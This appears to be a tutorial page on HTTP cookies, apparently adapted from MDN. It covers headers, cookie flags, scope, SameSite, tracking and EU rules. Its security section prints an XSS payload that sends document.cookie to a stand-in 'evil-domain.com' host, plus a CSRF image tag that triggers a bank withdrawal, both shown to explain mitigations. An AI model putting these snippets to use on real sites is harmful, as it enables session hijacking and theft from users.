 #Cookies
##What is a cookie?
>**An HTTP cookie (web cookie, browser cookie) is a small piece of data that a server sends to the user's web browser, that may store it and send it back together with the next request to the same server. Typically, it's used to know if two requests came from the same browser allowing to keep a user logged-in, for example. It remembers stateful information for the stateless HTTP protocol.**

Cookies are mainly used for these three purposes:

- Session management 
- - Personalization
- Tracking 

Cookies have also been used for general client-side storage. While this use could have been considered legitimate at a time when there was no other way to store data on the client side, it is no longer the case nowadays where web browsers are capable of using various storage APIs. Since cookies are sent along with every request, it can be an additional performance burden.

##Creating Cookies
When receiving an HTTP request, a server can send a **Set-Cookie** header with the response. The cookie is usually stored by the browser and, afterwards, the cookie value is sent along with every request made to the same server as the content of a Cookie HTTP header. Additionally, an expiration delay can be specified as well as restrictions to a specific domain and path, limiting how long and to which site the cookie is sent to.

##The Set-Cookie and Cookie headers
The Set-Cookie HTTP response header is used to send cookies from the server to the user agent. A simple cookie can be set like this:
>Set-Cookie: < cookie-name>=< cookie-value>

The server tells the client to store a cookie. The response sent to the browser will contain the Set-Cookie header and the browser will store the cookie.
>HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
[page content]

Now, with every new request to the server, the browser will send back all previously stored cookies to the server using the Cookie header.
>GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry

###Session cookies
The simple cookie created above is a *session cookie*: It will get removed when the client is shut down, they last only for the duration of the session. They don't specify any Expires or Max-Age directives. 
###Permanent cookies
Instead of expiring when the client is closed, *permanent cookies* expire at a specific date (Expires) or after a specific length of time (Max-Age).
>Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;

###Secure and HttpOnly cookies
A secure cookie will only be sent to the server when a request is made using SSL and the HTTPS protocol. However, note that confidential or sensitive information should never be stored or transmitted in HTTP Cookies as the entire mechanism is inherently insecure and this flag won't offer you any additional encryption or security. 

To prevent cross-site scripting (XSS) attacks, HTTP-only cookies aren't accessible via JavaScript through the Document.cookie property, the XMLHttpRequest and Request APIs. Set this flag when you don't need your cookies available in JavaScript. 
>Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

###Scope of cookies
The Domain and Path directives define the scope of the cookie, that is the set of URLs the cookies should be sent back to.

Domain specifies those hosts to which the cookie will be sent. If not specified, defaults to the host portion of the current document location (but not including subdomains). If a domain is specified, subdomains are always included.

If Domain=mozilla.org is set, cookies are included on subdomains like developer.mozilla.org.

Path indicates a URL path that must exist in the requested resource before sending the Cookie header.

If Path=/docs is set, these paths will all be matched:

- "/docs",
- "/docs/Web/",
- "/docs/Web/HTTP"
###SameSite cookies  
SameSite cookies allow servers to assert that a cookie ought not to be sent along with cross-site requests, which provides some protection against cross-site request forgery attacks (CSRF). 

###JavaScript access using Document.cookies
New cookies can also be created using the **Document.cookie** property, and if the HttpOnly flag is not set, existing cookies can be accessed from JavaScript as well.
```javascript
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

##Security
###Session hijacking and XSS
Cookies are often used in web application to identify a user and their authenticated session. So stealing a cookie from a web application can lead to hijacking the authenticated user's session. Common ways to steal cookies include using Social Engineering or by exploiting an *XSS* vulnerability in the application.
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

The HttpOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through JavaScript.

###Cross-site request forgery (CSRF)
[Wikipedia](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery) mentions a good example for *CSRF*. In this situation, someone includes an image that isn’t really an image (for example in an unfiltered chat or forum), instead it really is a request to your bank’s server to withdraw money:
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
Now, if you are logged into your bank account and your cookies are still valid (and there is no other validation), you will transfer money as soon as you load the HTML that contains this image. There are a few techniques that are used to prevent this from happening:

- As with XSS, input filtering is important.
- There should always be a confirmation required for any sensitive action.
- Cookies that are used for sensitive actions should have a short lifetime only.
- For more prevention tips, see the OWASP CSRF prevention cheat sheet.

##Tracking and privacy
###Third-party cookies
Cookies have a domain associated to them. If this domain is the same as the domain of the page you are on, the cookies is said to be a first-party cookie. If the domain is different, it is said to be a third-party cookie. While first-party cookies are sent only to the server setting them, a web page may contain images or other components stored on servers in other domains (like ad banners). Cookies that are sent through these third-party components are called third-party cookies and are mainly used for advertising and tracking across the web. 

###Do-Not-Track
There are no legal or technological requirements for its use, but the DNT header can be used to signal that a web application should disable either its tracking or cross-site user tracking of an individual user. 

###EU cookie directive
Requirements for cookies across the EU are defined in [Directive 2009/136/EC](http://eur-lex.europa.eu/legal-content/EN/TXT/?uri=CELEX:32009L0136) of the European Parliament and came into effect on 25 May 2011. A directive is not a law by itself, but a requirement for EU member states to put laws in place that meet the requirements of the directive. The actual laws can differ from country to country.
In short the EU directive means that before somebody can store or retrieve any information from a computer, mobile phone or other device, the user must give informed consent to do so. Many websites have added banners since then to inform the user about the use of cookies.

###Zombie cookies and Evercookies
A more radical approach to cookies are zombie cookies or "Evercookies" which are recreated after their deletion and are intentionally hard to delete forever. They are using the *Web storage API*, Flash Local Shared Objects and other techniques to recreate themselves whenever the cookie's absence is detected.